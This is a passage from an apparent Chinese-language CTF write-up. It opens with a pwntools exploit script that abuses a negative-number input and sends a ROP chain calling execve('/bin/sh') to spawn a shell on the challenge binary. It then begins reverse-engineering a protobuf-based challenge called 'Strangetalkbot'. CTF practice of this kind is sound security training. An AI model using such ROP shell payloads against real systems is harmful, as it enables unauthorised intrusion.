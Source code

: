 ```c
def chuan(ch,num):
    menu(2)
    sla(". ",str(ch))
    sla("\n",str(num))
def game(cont):
    menu(5)
    sla("",cont)

#dbg()

chuan(2,'-100000')

menu(4)

poprdi=0x000000000040264f
poprsi=0x000000000040a67e
poprdx=0x00000000004a404b
poprax=0x0000000000458827
syscalret=0x00000000004230a6
name=0x4E60F0

payload=b"/bin/sh\x00"+b'\x00'*0x20+p64(poprdi)+p64(name)+p64(poprsi)+p64(0)+p64(poprdx)+p64(0)*2+p64(poprax)+p64(59)
payload+=p64(syscalret)

game(payload)

p.interactive( )
```
## Strangetalkbot（protocal）

### 逆向分析
> 前言，本题是protocal
> [Protobuf](https://developers.google.com/protocol-buffers/)是由Google开发的一种序列化格式，用于越来越多的Android，Web，桌面和更多应用程序。它由一种用于声明数据结构的语言组成，然后根据目标实现将其编译为代码或另一种结构。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685428257017-08ba6194-9357-414a-9839-c245faec8d96.png#averageHue=%23313030&clientId=uc9ea2a7e-31a5-4&from=paste&height=594&id=uee8b634e&originHeight=980&originWidth=1727&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=212377&status=done&style=none&taskId=u920f3082-3a67-4588-bfd9-1fe8f72ed05&title=&width=1046.6666061709661)<br />快速搜索magic可以定位到源码的仓库，当然也可以直接点击，就会发现了<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685459048004-73e17803-2ce5-4106-8dda-52bb31eb004d.png#averageHue=%23050302&clientId=u0082e65c-a6da-4&from=paste&height=336&id=u16f4f143&originHeight=555&originWidth=1467&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=75468&status=done&style=none&taskId=u4db6bf6d-76b1-4910-8dfa-a385f87d5f8&title=&width=889.0908577028415)
### 提取结构体
>  保存为.proto文件

#### 查找对应的结构参数方法
> 直接看符合表，然后一个个查

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685461665371-fbb63052-04ea-4af2-ba01-eca2d4d7e388.png#averageHue=%23353331&clientId=u38768434-f11b-4&from=paste&height=296&id=ud14eb8e5&originHeight=488&originWidth=926&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=95563&status=done&style=none&taskId=u3459790c-4b1e-4ef5-bc5b-600a59b48ca&title=&width=561.2120887749361)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685461686511-aee0bf0b-380f-4612-b90b-8d5bc7a8ef2a.png#averageHue=%23020201&clientId=u38768434-f11b-4&from=paste&height=250&id=ue8fe8815&originHeight=412&originWidth=1295&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=56894&status=done&style=none&taskId=u554e94ab-91a0-4bf5-9af2-eb0a9f07f1f&title=&width=784.8484394854668)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685461704999-8b8be39d-45c2-4f29-945d-48d1470c6520.png#averageHue=%23080703&clientId=u38768434-f11b-4&from=paste&height=114&id=u7ed0d7ed&originHeight=188&originWidth=1206&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=31649&status=done&style=none&taskId=u3c557c52-1aee-41cb-aaa8-fd4748c7746&title=&width=730.9090486636857)
> 快捷键：ctrl + X 快速交叉引用

#### 自动化提取分析
> [https://github.com/marin-m/pbtk](https://github.com/marin-m/pbtk)
> 貌似行不通，openjdk-9我换成openjdk-11
